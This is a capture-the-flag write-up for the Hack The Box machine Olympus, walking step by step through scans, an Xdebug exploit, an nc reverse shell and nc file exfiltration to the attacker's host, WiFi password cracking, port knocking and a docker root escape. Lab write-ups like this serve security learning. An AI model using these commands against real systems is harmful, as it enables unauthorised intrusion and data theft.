

# [Olympus](https://app.hackthebox.com/machines/olympus)

```bash
nmap -p-  --min-rate 5000 10.10.10.83 -Pn
```


**Note:** Port `22` is filtered, maybe, we can do `Port Knocking` to make open this port of target machine.


After detection of open ports, let's do greater nmap scan.

```bash
nmap -A -sC -sV -p53,80,2222 10.10.10.83 -Pn 
```


Let's look at web application.


While looking at HTTP response headers via `curl` command, I see `Xdebug's` version is 2.5.5 


While I search publicly known exploit for this version of `Xdebug`, I find this [exploit](https://github.com/D3Ext/XDEBUG-Exploit)

```bash
python3 xdebug.py -u http://10.10.10.83/index.php -l 10.10.14.8
```


Let's write reverse shell payload into here as below.
```bash
system("nc -e /bin/bash 10.10.14.8 1337")
```


Hola! I got reverse shell from port `1337`.


Let's enumerate this machine, I guess that it is `container`.




I find interesting `.cap` file from `/home/zeus/airgeddon/captured` directory, named as `captured.cap` file.


Let's download this into our box. I will use `nc` to download file. `nc for file transfer`.

First,  I open listener as below
```bash
nc -l -p 1234 > captured.cap
```


Then, I send this file into my box as below.

```bash
nc -w 3 10.10.14.8 1234 < captured.cap
```


Let's look at this file via `Wireshark`. I can easily find `SSID` (Service Set IDentifier).


As we have ready and open `.cap` file and we know `SSID`, we can do `Password Cracking` for `Wi-Fi` password.

That's the first thing which I do , which is so interested for me.

```bash
aircrack-ng -e Too_cl0se_to_th3_Sun -w /usr/share/wordlists/rockyou.txt caputred.cap
```


From notes file and password itself, I guess that username is `icarus`, let's join into machine via this credentials by using `ssh` via port `2222`.

icarus: Too_cl0se_to_th3_Sun

```bash
ssh icarus@10.10.10.83 -p 2222
```


From `.txt` file, I can see new domain records `ctfolympus.htb`, let's `dig` this domain via `AXFR` protocol to find subdomains.

```bash
dig axfr @10.10.10.83 ctfolympus.htb
```


From records itself, you can see one `TXT` record which says 3 numbers and looks like `sequence` for `/etc/knockd.conf` file.

Also from this `TXT` record, we can grab `username` as "prometheus" and `password` as "St34l_th3_F1re!".


Let's do `Port Knocking` via `knock` command as below.
```bash
knock -v 10.10.10.83 3456:TCP 8234:TCP 62431:TCP
```


Now, as port `22` (ssh) is open, we can test our credentials via `ssh` command.

prometheus: St34l_th3_F1re!


But after `Port Knocking`, port `22` is `filtered` again, that's why we need to run one cmdlet as below.

```bash
knock -v 10.10.10.83 3456:TCP 8234:TCP 62431:TCP && ssh prometheus@10.10.10.83
```


user.txt


For `Privilege Escalation`, I just run `id` command to see included groups of this user.


While I run `docker ps` to see local images, I see the result as below.


Let's exploit to get root info via `docker run`.

```bash
docker run -v /:/hostOS -i -t  rodhes bash
```

root.txt

